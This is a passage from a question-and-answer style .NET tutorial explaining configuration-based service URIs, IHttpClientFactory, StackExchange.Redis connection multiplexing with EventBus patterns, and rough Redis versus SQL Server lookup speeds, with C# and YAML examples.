    public async Task<Uri> GetServiceUriAsync(string serviceName)
    {
        // Try configuration first
        var configUri = _configuration[$"Services:{serviceName}"];
        if (!string.IsNullOrEmpty(configUri))
        {
            return new Uri(configUri);
        }
        
        // Fall back to service discovery
        var instances = await _serviceDiscovery.GetInstancesAsync(serviceName);
        var instance = instances.FirstOrDefault() 
            ?? throw new InvalidOperationException($"No instances found for {serviceName}");
            
        return new Uri($"{instance.Scheme}://{instance.Host}:{instance.Port}");
    }
}
```

### Common Patterns and Best Practices

```csharp
// 1. Configuration with defaults
public class ServiceConfiguration
{
    private readonly IConfiguration _configuration;
    
    public Uri GetServiceUri(string serviceName, string defaultUri = null)
    {
        var uri = _configuration[$"Services:{serviceName}"] ?? defaultUri;
        
        if (string.IsNullOrEmpty(uri))
            throw new InvalidOperationException($"No URI configured for {serviceName}");
            
        return new Uri(uri);
    }
}

// 2. Configuration with transformation
public class ConfigurationHelper
{
    public static Uri GetServiceUri(IConfiguration config, string serviceName)
    {
        var uri = config[$"Services:{serviceName}"];
        
        // Handle Docker internal DNS
        if (uri?.Contains("host.docker.internal") == true && !IsRunningInDocker())
        {
            uri = uri.Replace("host.docker.internal", "localhost");
        }
        
        return new Uri(uri);
    }
}

// 3. Configuration with health checks
services.AddHealthChecks()
    .AddUrlGroup(
        uri => new Uri(Configuration["Services:MediaService"] + "/health"),
        name: "media-service",
        tags: new[] { "services" });
```

### Troubleshooting Configuration Issues

```csharp
public class ConfigurationDebugger
{
    private readonly IConfiguration _configuration;
    private readonly ILogger<ConfigurationDebugger> _logger;
    
    public void DebugServiceConfiguration()
    {
        _logger.LogInformation("=== Configuration Debug ===");
        
        // List all configuration sources
        if (_configuration is IConfigurationRoot root)
        {
            foreach (var provider in root.Providers)
            {
                _logger.LogInformation("Provider: {Provider}", 
                    provider.GetType().Name);
            }
        }
        
        // Display service URLs
        var servicesSection = _configuration.GetSection("Services");
        foreach (var service in servicesSection.GetChildren())
        {
            _logger.LogInformation("Service {Key}: {Value}", 
                service.Key, service.Value);
                
            // Validate URI
            if (Uri.TryCreate(service.Value, UriKind.Absolute, out var uri))
            {
                _logger.LogInformation("  Valid URI - Scheme: {Scheme}, Host: {Host}, Port: {Port}",
                    uri.Scheme, uri.Host, uri.Port);
            }
            else
            {
                _logger.LogWarning("  Invalid URI: {Value}", service.Value);
            }
        }
    }
}
```

### Summary

`new Uri(Configuration["services:mediaservice"])` works because:

1. **Configuration system** loads values from multiple sources (JSON, environment variables, etc.)
2. **Hierarchical key access** using `:` separator (case-insensitive)
3. **String value** is returned containing the full URL
4. **URI constructor** parses the string into a valid URI object
5. **Validation** happens in URI constructor, throwing if invalid

Best practices:
- Always validate configuration values
- Use strongly-typed configuration when possible
- Provide meaningful error messages
- Consider environment-specific configurations
- Use health checks to verify service availability
- Document required configuration clearly

## Question 45: What does httpClientFactory do?

### Understanding IHttpClientFactory

IHttpClientFactory is a factory abstraction introduced in .NET Core 2.1 that creates and manages HttpClient instances. It solves several critical problems that developers faced with HttpClient usage, particularly around connection management and DNS resolution.

### The Problems HttpClientFactory Solves

#### 1. Socket Exhaustion

```csharp
// ❌ BAD: Creating new HttpClient for each request
public class BadHttpService
{
    public async Task<string> GetDataAsync(string url)
    {
        // This creates a new connection pool each time
        using (var client = new HttpClient())
        {
            return await client.GetStringAsync(url);
        }
        // Socket is not immediately released after disposal
        // Can lead to SocketException: "Only one usage of each socket address"
    }
}

// ✅ GOOD: Using HttpClientFactory
public class GoodHttpService
{
    private readonly IHttpClientFactory _clientFactory;
    
    public GoodHttpService(IHttpClientFactory clientFactory)
    {
        _clientFactory = clientFactory;
    }
    
    public async Task<string> GetDataAsync(string url)
    {
        // Reuses connections from the pool
        var client = _clientFactory.CreateClient();
        return await client.GetStringAsync(url);
    }
}
```

#### 2. DNS Changes Not Respected

```csharp
// ❌ BAD: Static HttpClient doesn't respect DNS changes
public class StaticHttpService
{
    // This client caches DNS resolution indefinitely
    private static readonly HttpClient _client = new HttpClient();
    
    public async Task<string> GetDataAsync(string url)
    {
        // If DNS changes, this continues using old IP
        return await _client.GetStringAsync(url);
    }
}

// ✅ GOOD: HttpClientFactory rotates handlers
public class FactoryHttpService
{
    private readonly IHttpClientFactory _clientFactory;
    
    public async Task<string> GetDataAsync(string url)
    {
        // Factory manages handler lifetime (default 2 minutes)
        // DNS changes are picked up automatically
        var client = _clientFactory.CreateClient();
        return await client.GetStringAsync(url);
    }
}
```

### How HttpClientFactory Works

```csharp
// Internal architecture simplified
public class HttpClientFactory : IHttpClientFactory
{
    // Pool of HttpMessageHandler instances
    private readonly ConcurrentDictionary<string, Lazy<ActiveHandlerTrackingEntry>> _activeHandlers;
    private readonly IOptionsMonitor<HttpClientFactoryOptions> _optionsMonitor;
    private readonly IHttpMessageHandlerFactory _messageHandlerFactory;
    private readonly IEnumerable<IHttpMessageHandlerBuilderFilter> _filters;
    
    public HttpClient CreateClient(string name)
    {
        // 1. Get or create handler from pool
        var handler = CreateHandler(name);
        
        // 2. Create new HttpClient with pooled handler
        var client = new HttpClient(handler, disposeHandler: false);
        
        // 3. Apply configuration
        var options = _optionsMonitor.Get(name);
        foreach (var action in options.HttpClientActions)
        {
            action(client);
        }
        
        return client;
    }
    
    private HttpMessageHandler CreateHandler(string name)
    {
        var entry = _activeHandlers.GetOrAdd(name, 
            _ => new Lazy<ActiveHandlerTrackingEntry>(() =>
            {
                var handler = _messageHandlerFactory.CreateHandler(name);
                return new ActiveHandlerTrackingEntry(handler, TimeSpan.FromMinutes(2));
            }));
            
        // Start timer to expire handler after lifetime
        StartHandlerTimer(entry.Value);
        
        return entry.Value.Handler;
    }
}
```

### Types of HttpClient Configuration

#### 1. Basic Usage

```csharp
// Startup.cs / Program.cs
services.AddHttpClient();

// Usage
public class BasicService
{
    private readonly IHttpClientFactory _clientFactory;
    
    public async Task<string> GetAsync(string url)
    {
        var client = _clientFactory.CreateClient();
        return await client.GetStringAsync(url);
    }
}
```

#### 2. Named Clients

```csharp
// Configuration
services.AddHttpClient("GitHubClient", client =>
{
    client.BaseAddress = new Uri("https://api.github.com/");
    client.DefaultRequestHeaders.Add("Accept", "application/vnd.github.v3+json");
    client.DefaultRequestHeaders.Add("User-Agent", "HttpClientFactory-Sample");
    client.Timeout = TimeSpan.FromSeconds(30);
});

// Usage
public class GitHubService
{
    private readonly IHttpClientFactory _clientFactory;
    
    public async Task<string> GetUserAsync(string username)
    {
        var client = _clientFactory.CreateClient("GitHubClient");
        return await client.GetStringAsync($"users/{username}");
    }
}
```

#### 3. Typed Clients

```csharp
// Typed client
public class GitHubApiClient
{
    private readonly HttpClient _httpClient;
    
    public GitHubApiClient(HttpClient httpClient)
    {
        _httpClient = httpClient;
    }
    
    public async Task<GitHubUser> GetUserAsync(string username)
    {
        var response = await _httpClient.GetAsync($"users/{username}");
        response.EnsureSuccessStatusCode();
        return await response.Content.ReadFromJsonAsync<GitHubUser>();
    }
}

// Configuration
services.AddHttpClient<GitHubApiClient>(client =>
{
    client.BaseAddress = new Uri("https://api.github.com/");
    client.DefaultRequestHeaders.Add("Accept", "application/vnd.github.v3+json");
});

// Usage (injected directly)
public class UserController : ControllerBase
{
    private readonly GitHubApiClient _githubClient;
    
    public UserController(GitHubApiClient githubClient)
    {
        _githubClient = githubClient;
    }
}
```

### Advanced Features

#### 1. Message Handlers

```csharp
// Custom delegating handler
public class LoggingHandler : DelegatingHandler
{
    private readonly ILogger<LoggingHandler> _logger;
    
    public LoggingHandler(ILogger<LoggingHandler> logger)
    {
        _logger = logger;
    }
    
    protected override async Task<HttpResponseMessage> SendAsync(
        HttpRequestMessage request, 
        CancellationToken cancellationToken)
    {
        _logger.LogInformation("Request: {Method} {Uri}", 
            request.Method, request.RequestUri);
        
        var response = await base.SendAsync(request, cancellationToken);
        
        _logger.LogInformation("Response: {StatusCode}", 
            response.StatusCode);
        
        return response;
    }
}

// Configuration
services.AddTransient<LoggingHandler>();
services.AddHttpClient("LoggedClient")
    .AddHttpMessageHandler<LoggingHandler>();
```

#### 2. Polly Integration

```csharp
// Add resilience with Polly
services.AddHttpClient<ResilientApiClient>()
    .AddPolicyHandler(GetRetryPolicy())
    .AddPolicyHandler(GetCircuitBreakerPolicy());

static IAsyncPolicy<HttpResponseMessage> GetRetryPolicy()
{
    return HttpPolicyExtensions
        .HandleTransientHttpError()
        .OrResult(msg => !msg.IsSuccessStatusCode)
        .WaitAndRetryAsync(
            3,
            retryAttempt => TimeSpan.FromSeconds(Math.Pow(2, retryAttempt)),
            onRetry: (outcome, timespan, retryCount, context) =>
            {
                var logger = context.Values["logger"] as ILogger;
                logger?.LogWarning("Retry {RetryCount} after {TimeSpan}ms", 
                    retryCount, timespan.TotalMilliseconds);
            });
}

static IAsyncPolicy<HttpResponseMessage> GetCircuitBreakerPolicy()
{
    return HttpPolicyExtensions
        .HandleTransientHttpError()
        .CircuitBreakerAsync(
            5,
            TimeSpan.FromSeconds(30),
            onBreak: (result, timespan) => 
            {
                // Log circuit opened
            },
            onReset: () => 
            {
                // Log circuit closed
            });
}
```

#### 3. Primary Handler Configuration

```csharp
services.AddHttpClient("CustomHandler")
    .ConfigurePrimaryHttpMessageHandler(() =>
    {
        return new HttpClientHandler
        {
            AllowAutoRedirect = false,
            UseDefaultCredentials = true,
            ClientCertificates = { new X509Certificate2("cert.pfx") },
            MaxConnectionsPerServer = 10,
            AutomaticDecompression = DecompressionMethods.All
        };
    });
```

### HttpClientFactory Lifecycle

```yaml
Handler Lifetime:
  Default: 2 minutes
  - After expiry, marked for disposal
  - Existing connections complete
  - New requests get fresh handler
  
Benefits:
  - DNS changes detected
  - Connection pool recycled
  - Prevents socket exhaustion
  - Memory leaks prevented

Configuration:
  services.AddHttpClient("LongLived")
    .SetHandlerLifetime(TimeSpan.FromMinutes(10));
```

### Real-World Patterns

#### 1. Service-to-Service Communication

```csharp
public interface IUserServiceClient
{
    Task<User> GetUserAsync(int userId);
}

public class UserServiceClient : IUserServiceClient
{
    private readonly HttpClient _httpClient;
    private readonly ILogger<UserServiceClient> _logger;
    
    public UserServiceClient(HttpClient httpClient, ILogger<UserServiceClient> logger)
    {
        _httpClient = httpClient;
        _logger = logger;
    }
    
    public async Task<User> GetUserAsync(int userId)
    {
        try
        {
            var response = await _httpClient.GetAsync($"api/users/{userId}");
            response.EnsureSuccessStatusCode();
            return await response.Content.ReadFromJsonAsync<User>();
        }
        catch (HttpRequestException ex)
        {
            _logger.LogError(ex, "Error getting user {UserId}", userId);
            throw new ServiceException("User service unavailable", ex);
        }
    }
}

// Registration
services.AddHttpClient<IUserServiceClient, UserServiceClient>(client =>
{
    client.BaseAddress = new Uri(Configuration["Services:UserService"]);
    client.Timeout = TimeSpan.FromSeconds(10);
})
.AddPolicyHandler(GetRetryPolicy());
```

#### 2. Authentication Handler

```csharp
public class AuthenticationHandler : DelegatingHandler
{
    private readonly ITokenService _tokenService;
    
    protected override async Task<HttpResponseMessage> SendAsync(
        HttpRequestMessage request,
        CancellationToken cancellationToken)
    {
        var token = await _tokenService.GetTokenAsync();
        request.Headers.Authorization = 
            new AuthenticationHeaderValue("Bearer", token);
        
        var response = await base.SendAsync(request, cancellationToken);
        
        if (response.StatusCode == HttpStatusCode.Unauthorized)
        {
            // Token might be expired, try refresh
            token = await _tokenService.RefreshTokenAsync();
            request.Headers.Authorization = 
                new AuthenticationHeaderValue("Bearer", token);
            response = await base.SendAsync(request, cancellationToken);
        }
        
        return response;
    }
}
```

### Monitoring and Diagnostics

```csharp
public class MetricsHandler : DelegatingHandler
{
    private readonly IMetrics _metrics;
    
    protected override async Task<HttpResponseMessage> SendAsync(
        HttpRequestMessage request,
        CancellationToken cancellationToken)
    {
        using var timer = _metrics.Measure.Timer.Time("http_request_duration");
        
        try
        {
            var response = await base.SendAsync(request, cancellationToken);
            
            _metrics.Measure.Counter.Increment("http_requests", 
                new MetricTags("status", ((int)response.StatusCode).ToString()));
            
            return response;
        }
        catch (Exception)
        {
            _metrics.Measure.Counter.Increment("http_request_errors");
            throw;
        }
    }
}
```

### Best Practices

```yaml
Do:
  - Use typed clients for service communication
  - Configure appropriate timeouts
  - Add resilience policies
  - Monitor handler rotation
  - Use message handlers for cross-cutting concerns
  
Don't:
  - Create HttpClient manually in high-frequency code
  - Use static HttpClient for external services
  - Ignore DNS changes in long-running apps
  - Forget to configure handler lifetime
  - Mix HttpClient configuration patterns

Configuration Tips:
  - Set reasonable timeouts (default is 100 seconds)
  - Configure handler lifetime based on DNS TTL
  - Use Polly for transient fault handling
  - Add telemetry for monitoring
  - Consider connection pooling limits
```

### Testing with HttpClientFactory

```csharp
public class HttpClientFactoryTests
{
    [Fact]
    public async Task GetUser_ReturnsExpectedUser()
    {
        // Arrange
        var factory = new WebApplicationFactory<Program>()
            .WithWebHostBuilder(builder =>
            {
                builder.ConfigureServices(services =>
                {
                    // Override HttpClient registration
                    services.AddHttpClient<IUserServiceClient, UserServiceClient>()
                        .ConfigurePrimaryHttpMessageHandler(() => new MockHandler());
                });
            });
            
        var client = factory.Services.GetRequiredService<IUserServiceClient>();
        
        // Act
        var user = await client.GetUserAsync(123);
        
        // Assert
        Assert.NotNull(user);
    }
}

public class MockHandler : HttpMessageHandler
{
    protected override Task<HttpResponseMessage> SendAsync(
        HttpRequestMessage request,
        CancellationToken cancellationToken)
    {
        var response = new HttpResponseMessage(HttpStatusCode.OK)
        {
            Content = JsonContent.Create(new User { Id = 123, Name = "Test" })
        };
        
        return Task.FromResult(response);
    }
}
```

### Summary

IHttpClientFactory provides:
1. **Connection pooling** - Reuses HttpMessageHandler instances
2. **DNS rotation** - Respects DNS changes via handler lifetime
3. **Configuration** - Centralized client configuration
4. **Extensibility** - Message handlers for cross-cutting concerns
5. **Integration** - Works with DI, Polly, and logging
6. **Safety** - Prevents common HttpClient misuse patterns

It's essential for any application making HTTP calls, especially in microservices architectures where service-to-service communication is common.

## Question 46: What does IConnectionMultiplexer do? Is it redis-specific? What does EventBus do? How does it connect to IConnectionMultiplexer?

### Understanding IConnectionMultiplexer

IConnectionMultiplexer is the central object in StackExchange.Redis, the most popular Redis client for .NET. It manages the connection(s) to Redis server(s) and is designed to be shared and reused throughout your application.

### What IConnectionMultiplexer Does

```csharp
// IConnectionMultiplexer is Redis-specific (StackExchange.Redis)
public interface IConnectionMultiplexer : IDisposable
{
    // Get database connection (default DB 0)
    IDatabase GetDatabase(int db = -1, object asyncState = null);
    
    // Get server connection for admin commands
    IServer GetServer(string host, int port);
    IServer GetServer(EndPoint endpoint);
    
    // Pub/Sub functionality
    ISubscriber GetSubscriber(object asyncState = null);
    
    // Connection events
    event EventHandler<ConnectionFailedEventArgs> ConnectionFailed;
    event EventHandler<ConnectionRestoredEventArgs> ConnectionRestored;
    event EventHandler<EndPointEventArgs> ConfigurationChanged;
    
    // Connection state
    bool IsConnected { get; }
    ConnectionMultiplexerConfiguration Configuration { get; }
}
```

### Key Features of IConnectionMultiplexer

#### 1. Connection Management

```csharp
public class RedisConnectionFactory
{
    private static readonly Lazy<ConnectionMultiplexer> lazyConnection = 
        new Lazy<ConnectionMultiplexer>(() =>
        {
            var options = ConfigurationOptions.Parse("localhost:6379");
            options.AbortOnConnectFail = false;
            options.ConnectRetry = 3;
            options.ConnectTimeout = 5000;
            options.SyncTimeout = 5000;
            options.AllowAdmin = true;
            options.Password = "your-redis-password";
            options.Ssl = true;
            options.SslProtocols = SslProtocols.Tls12;
            
            // Connection resiliency
            options.ReconnectRetryPolicy = new ExponentialRetry(5000);
            
            var connection = ConnectionMultiplexer.Connect(options);
            
            // Monitor connection events
            connection.ConnectionFailed += (sender, e) =>
            {
                Console.WriteLine($"Connection failed: {e.EndPoint} - {e.FailureType}");
            };
            
            connection.ConnectionRestored += (sender, e) =>
            {
                Console.WriteLine($"Connection restored: {e.EndPoint}");
            };
            
            return connection;
        });
    
    public static IConnectionMultiplexer Connection => lazyConnection.Value;
}
```

#### 2. Multiplexing Explained

```csharp
// Multiplexing means multiple logical operations over a single connection
public class MultiplexingExample
{
    private readonly IConnectionMultiplexer _multiplexer;
    
    public async Task DemonstrateMultiplexing()
    {
        // All these operations share the same physical connection
        var db = _multiplexer.GetDatabase();
        
        // Fire multiple async operations simultaneously
        var tasks = new List<Task>();
        
        for (int i = 0; i < 1000; i++)
        {
            tasks.Add(db.StringSetAsync($"key:{i}", $"value:{i}"));
            tasks.Add(db.StringGetAsync($"key:{i}"));
            tasks.Add(db.KeyExpireAsync($"key:{i}", TimeSpan.FromMinutes(5)));
        }
        
        // All 3000 operations execute over the same connection
        // Redis protocol allows pipelining - sending multiple commands
        // before reading responses
        await Task.WhenAll(tasks);
    }
}
```

#### 3. Thread Safety

```csharp
// IConnectionMultiplexer and IDatabase are completely thread-safe
public class ThreadSafeRedisService
{
    private readonly IDatabase _db;
    
    public ThreadSafeRedisService(IConnectionMultiplexer multiplexer)
    {
        _db = multiplexer.GetDatabase();
    }
    
    // Safe to call from multiple threads simultaneously
    public async Task<string> GetAsync(string key)
    {
        return await _db.StringGetAsync(key);
    }
    
    public async Task SetAsync(string key, string value)
    {
        await _db.StringSetAsync(key, value);
    }
    
    // No locking needed - multiplexer handles thread safety
    public async Task IncrementAsync(string key)
    {
        await _db.StringIncrementAsync(key);
    }
}
```

### EventBus Pattern

EventBus is a publish-subscribe pattern implementation that decouples event publishers from subscribers. It's NOT Redis-specific but often uses Redis as the underlying transport.

#### Basic EventBus Interface

```csharp
public interface IEventBus
{
    // Publish an event
    Task PublishAsync<TEvent>(TEvent @event) where TEvent : class;
    
    // Subscribe to an event
    void Subscribe<TEvent, THandler>() 
        where TEvent : class 
        where THandler : IEventHandler<TEvent>;
    
    // Unsubscribe
    void Unsubscribe<TEvent, THandler>() 
        where TEvent : class 
        where THandler : IEventHandler<TEvent>;
}

public interface IEventHandler<in TEvent> where TEvent : class
{
    Task HandleAsync(TEvent @event);
}
```

### Redis-Based EventBus Implementation

```csharp
public class RedisEventBus : IEventBus
{
    private readonly IConnectionMultiplexer _multiplexer;
    private readonly IServiceProvider _serviceProvider;
    private readonly ILogger<RedisEventBus> _logger;
    private readonly Dictionary<string, Type> _eventTypes = new();
    private readonly Dictionary<string, List<Type>> _handlers = new();
    
    public RedisEventBus(
        IConnectionMultiplexer multiplexer,
        IServiceProvider serviceProvider,
        ILogger<RedisEventBus> logger)
    {
        _multiplexer = multiplexer;
        _serviceProvider = serviceProvider;
        _logger = logger;
        
        // Subscribe to Redis channel
        var subscriber = _multiplexer.GetSubscriber();
        subscriber.Subscribe("events:*", async (channel, message) =>
        {
            await HandleRedisMessage(channel, message);
        });
    }
    
    public async Task PublishAsync<TEvent>(TEvent @event) where TEvent : class
    {
        var eventName = typeof(TEvent).Name;
        var message = JsonSerializer.Serialize(@event);
        
        // Publish to Redis channel
        var subscriber = _multiplexer.GetSubscriber();
        await subscriber.PublishAsync($"events:{eventName}", message);
        
        _logger.LogInformation("Published event {EventName}", eventName);
    }
    
    public void Subscribe<TEvent, THandler>()
        where TEvent : class
        where THandler : IEventHandler<TEvent>
    {
        var eventName = typeof(TEvent).Name;
        var handlerType = typeof(THandler);
        
        // Register event type
        if (!_eventTypes.ContainsKey(eventName))
        {
            _eventTypes.Add(eventName, typeof(TEvent));
        }
        
        // Register handler
        if (!_handlers.ContainsKey(eventName))
        {
            _handlers.Add(eventName, new List<Type>());
        }
        
        if (!_handlers[eventName].Contains(handlerType))
        {
            _handlers[eventName].Add(handlerType);
        }
    }
    
    private async Task HandleRedisMessage(string channel, string message)
    {
        // Extract event name from channel
        var eventName = channel.Split(':')[1];
        
        if (!_eventTypes.TryGetValue(eventName, out var eventType))
        {
            _logger.LogWarning("No event type registered for {EventName}", eventName);
            return;
        }
        
        // Deserialize event
        var @event = JsonSerializer.Deserialize(message, eventType);
        
        if (!_handlers.TryGetValue(eventName, out var handlerTypes))
        {
            _logger.LogWarning("No handlers registered for {EventName}", eventName);
            return;
        }
        
        // Execute handlers
        using var scope = _serviceProvider.CreateScope();
        foreach (var handlerType in handlerTypes)
        {
            try
            {
                var handler = scope.ServiceProvider.GetService(handlerType);
                if (handler != null)
                {
                    var handleMethod = handlerType.GetMethod("HandleAsync");
                    await (Task)handleMethod.Invoke(handler, new[] { @event });
                }
            }
            catch (Exception ex)
            {
                _logger.LogError(ex, "Error handling event {EventName}", eventName);
            }
        }
    }
}
```

### How EventBus Connects to IConnectionMultiplexer

#### 1. Pub/Sub Channel

```csharp
public class RedisPubSubEventBus : IEventBus
{
    private readonly IConnectionMultiplexer _redis;
    private readonly ISubscriber _subscriber;
    
    public RedisPubSubEventBus(IConnectionMultiplexer redis)
    {
        _redis = redis;
        _subscriber = redis.GetSubscriber();
    }
    
    public async Task PublishAsync<TEvent>(TEvent @event) where TEvent : class
    {
        var channel = $"events:{typeof(TEvent).Name}";
        var message = JsonSerializer.Serialize(@event);
        
        // Use Redis Pub/Sub
        await _subscriber.PublishAsync(channel, message);
    }
    
    public void Subscribe<TEvent, THandler>()
        where TEvent : class
        where THandler : IEventHandler<TEvent>
    {
        var channel = $"events:{typeof(TEvent).Name}";
        
        _subscriber.Subscribe(channel, async (ch, message) =>
        {
            var @event = JsonSerializer.Deserialize<TEvent>(message);
            var handler = _serviceProvider.GetService<THandler>();
            await handler.HandleAsync(@event);
        });
    }
}
```

#### 2. Reliable EventBus with Redis Streams

```csharp
public class RedisStreamsEventBus : IEventBus
{
    private readonly IConnectionMultiplexer _redis;
    private readonly IDatabase _db;
    private readonly string _consumerGroup;
    
    public RedisStreamsEventBus(IConnectionMultiplexer redis, string consumerGroup)
    {
        _redis = redis;
        _db = redis.GetDatabase();
        _consumerGroup = consumerGroup;
    }
    
    public async Task PublishAsync<TEvent>(TEvent @event) where TEvent : class
    {
        var streamKey = $"stream:events:{typeof(TEvent).Name}";
        var entries = new[]
        {
            new NameValueEntry("data", JsonSerializer.Serialize(@event)),
            new NameValueEntry("type", typeof(TEvent).FullName),
            new NameValueEntry("timestamp", DateTimeOffset.UtcNow.ToUnixTimeSeconds())
        };
        
        // Add to stream (more reliable than pub/sub)
        await _db.StreamAddAsync(streamKey, entries);
    }
    
    public async Task ConsumeAsync(CancellationToken cancellationToken)
    {
        var streams = new[] { "stream:events:*" };
        
        while (!cancellationToken.IsCancellationRequested)
        {
            // Read from streams
            var results = await _db.StreamReadGroupAsync(
                streams,
                _consumerGroup,
                "consumer-1",
                count: 10,
                noAck: false);
            
            foreach (var result in results)
            {
                foreach (var message in result.Entries)
                {
                    await ProcessStreamMessage(result.Key, message);
                    
                    // Acknowledge message
                    await _db.StreamAcknowledgeAsync(
                        result.Key,
                        _consumerGroup,
                        message.Id);
                }
            }
            
            if (!results.Any())
            {
                await Task.Delay(100, cancellationToken);
            }
        }
    }
}
```

### Integration with SignalR Backplane

```csharp
// SignalR uses Redis pub/sub as a backplane
public class Startup
{
    public void ConfigureServices(IServiceCollection services)
    {
        // Register Redis multiplexer
        services.AddSingleton<IConnectionMultiplexer>(sp =>
            ConnectionMultiplexer.Connect(Configuration.GetConnectionString("Redis")));
        
        // SignalR with Redis backplane
        services.AddSignalR()
            .AddStackExchangeRedis(options =>
            {
                options.ConnectionFactory = async writer =>
                {
                    var connection = await ConnectionMultiplexer.ConnectAsync(
                        Configuration.GetConnectionString("Redis"));
                    connection.ConnectionFailed += (_, e) =>
                    {
                        Console.WriteLine("Redis connection failed: " + e.Exception);
                    };
                    return connection;
                };
            });
        
        // Custom EventBus using same Redis connection
        services.AddSingleton<IEventBus, RedisEventBus>();
    }
}

// SignalR Hub that uses EventBus
public class NotificationHub : Hub
{
    private readonly IEventBus _eventBus;
    
    public NotificationHub(IEventBus eventBus)
    {
        _eventBus = eventBus;
    }
    
    public async Task SendNotification(string message)
    {
        // Publish event via EventBus
        await _eventBus.PublishAsync(new NotificationEvent
        {
            Message = message,
            UserId = Context.UserIdentifier,
            Timestamp = DateTime.UtcNow
        });
    }
}

// Event handler that broadcasts to SignalR
public class NotificationEventHandler : IEventHandler<NotificationEvent>
{
    private readonly IHubContext<NotificationHub> _hubContext;
    
    public async Task HandleAsync(NotificationEvent @event)
    {
        // Broadcast to all connected clients via SignalR
        await _hubContext.Clients.All.SendAsync("ReceiveNotification", @event);
    }
}
```

### EventBus Alternatives

```csharp
// 1. In-Memory EventBus (single instance only)
public class InMemoryEventBus : IEventBus
{
    private readonly Dictionary<Type, List<object>> _handlers = new();
    
    public Task PublishAsync<TEvent>(TEvent @event) where TEvent : class
    {
        if (_handlers.TryGetValue(typeof(TEvent), out var handlers))
        {
            foreach (var handler in handlers.Cast<IEventHandler<TEvent>>())
            {
                handler.HandleAsync(@event);
            }
        }
        return Task.CompletedTask;
    }
}

// 2. RabbitMQ EventBus
public class RabbitMqEventBus : IEventBus
{
    private readonly IConnection _connection;
    
    public async Task PublishAsync<TEvent>(TEvent @event) where TEvent : class
    {
        using var channel = _connection.CreateModel();
        var message = JsonSerializer.SerializeToUtf8Bytes(@event);
        var properties = channel.CreateBasicProperties();
        properties.DeliveryMode = 2; // Persistent
        
        channel.BasicPublish(
            exchange: "events",
            routingKey: typeof(TEvent).Name,
            basicProperties: properties,
            body: message);
    }
}

// 3. Azure Service Bus EventBus
public class ServiceBusEventBus : IEventBus
{
    private readonly ServiceBusClient _client;
    
    public async Task PublishAsync<TEvent>(TEvent @event) where TEvent : class
    {
        var sender = _client.CreateSender("events");
        var message = new ServiceBusMessage(JsonSerializer.Serialize(@event))
        {
            Subject = typeof(TEvent).Name
        };
        await sender.SendMessageAsync(message);
    }
}
```

### Best Practices

```yaml
IConnectionMultiplexer:
  - Singleton instance per Redis server/cluster
  - Configure connection resilience
  - Monitor connection events
  - Use connection pooling for multiple Redis instances
  - Set appropriate timeouts
  - Enable command logging in development

EventBus:
  - Use Redis Streams for reliability
  - Implement retry logic
  - Add circuit breakers
  - Log all events for debugging
  - Consider event sourcing patterns
  - Version your events

Integration:
  - Share IConnectionMultiplexer across services
  - Use separate Redis databases for different concerns
  - Implement health checks
  - Monitor Redis memory usage
  - Plan for Redis failover
```

### Summary

**IConnectionMultiplexer**:
- Redis-specific (StackExchange.Redis library)
- Manages connections to Redis server(s)
- Thread-safe and designed for reuse
- Supports multiplexing (multiple operations on one connection)
- Provides pub/sub, database, and server interfaces

**EventBus**:
- Generic pub/sub pattern
- Not Redis-specific (can use any transport)
- Decouples publishers from subscribers
- Often implemented using Redis pub/sub or streams
- Enables event-driven architecture

**Connection**: EventBus uses IConnectionMultiplexer's pub/sub functionality (`GetSubscriber()`) to distribute events across multiple application instances using Redis as the message broker.

## Question 47: How much faster should we expect Redis to be than SQL Server for base data (like types and users) that rarely change?

### Understanding the Performance Difference

Redis and SQL Server serve different purposes, and their performance characteristics reflect this. For rarely-changing reference data, the performance difference can be dramatic, but it's important to understand why and when to use each.

### Performance Benchmarks

```csharp
public class PerformanceBenchmark
{
    private readonly IDatabase _redis;
    private readonly SqlConnection _sqlConnection;
    private readonly IMemoryCache _memoryCache;
    
    // Typical performance results for simple key lookups
    /*
    | Operation | SQL Server | Redis | Memory Cache | Ratio |
    |-----------|------------|-------|--------------|-------|
    | Single Get | 2-5ms | 0.1-0.5ms | 0.001ms | 10-50x |
    | Bulk Get (100) | 50-100ms | 1-5ms | 0.01ms | 20-100x |
    | With Network | 5-20ms | 0.5-2ms | N/A | 10-40x |
    | Complex Query | 10-50ms | N/A | N/A | N/A |
    */
    
    [Benchmark]
    public async Task<User> GetUserFromSqlServer(int userId)
    {
        using var command = new SqlCommand(
            "SELECT Id, Name, Email FROM Users WHERE Id = @Id", 
            _sqlConnection);
        command.Parameters.AddWithValue("@Id", userId);
        
        using var reader = await command.ExecuteReaderAsync();
        if (await reader.ReadAsync())
        {
            return new User
            {
                Id = reader.GetInt32(0),
                Name = reader.GetString(1),
                Email = reader.GetString(2)
            };
        }
        return null;
    }
    
    [Benchmark]
    public async Task<User> GetUserFromRedis(int userId)
    {
        var key = $"user:{userId}";
        var json = await _redis.StringGetAsync(key);
        
        return json.HasValue 
            ? JsonSerializer.Deserialize<User>(json) 
            : null;
    }
    
    [Benchmark]
    public Task<User> GetUserFromMemoryCache(int userId)
    {
        return Task.FromResult(_memoryCache.Get<User>($"user:{userId}"));
    }
}
```

### Real-World Performance Factors

#### 1. Network Latency

```yaml
Local Development:
  SQL Server: 0.1-1ms network latency
  Redis: 0.1-0.5ms network latency
  Difference: Minimal

Same Data Center:
  SQL Server: 0.5-2ms network latency
  Redis: 0.2-1ms network latency
  Difference: 2-5x

Cross-Region:
  SQL Server: 20-100ms network latency
  Redis: 20-100ms network latency
  Difference: Negligible (network dominates)
```

#### 2. Query Complexity

```csharp
// Simple lookup - Redis wins significantly
public async Task<ProductType> GetProductType(int id)
{
    // SQL Server: ~2-5ms
    var sql = "SELECT * FROM ProductTypes WHERE Id = @Id";
    
    // Redis: ~0.1-0.5ms (10-50x faster)
    var redis = await _redis.StringGetAsync($"producttype:{id}");
}

// Complex query - SQL Server only option
public async Task<List<User>> GetActiveUsersByRole(string role)
{
    // SQL Server: Can handle complex queries
    var sql = @"
        SELECT u.* 
        FROM Users u
        INNER JOIN UserRoles ur ON u.Id = ur.UserId
        INNER JOIN Roles r ON ur.RoleId = r.Id
        WHERE r.Name = @Role 
        AND u.IsActive = 1
        AND u.LastLoginDate > DATEADD(day, -30, GETDATE())";
    
    // Redis: Would need multiple operations or denormalization
    // Not suitable for ad-hoc queries
}
```

### Caching Strategies for Reference Data

#### 1. Cache-Aside Pattern

```csharp
public class ReferenceDataService
{
    private readonly IDatabase _redis;
    private readonly IDbConnection _sql;
    private readonly ILogger<ReferenceDataService> _logger;
    
    public async Task<UserType> GetUserTypeAsync(int id)
    {
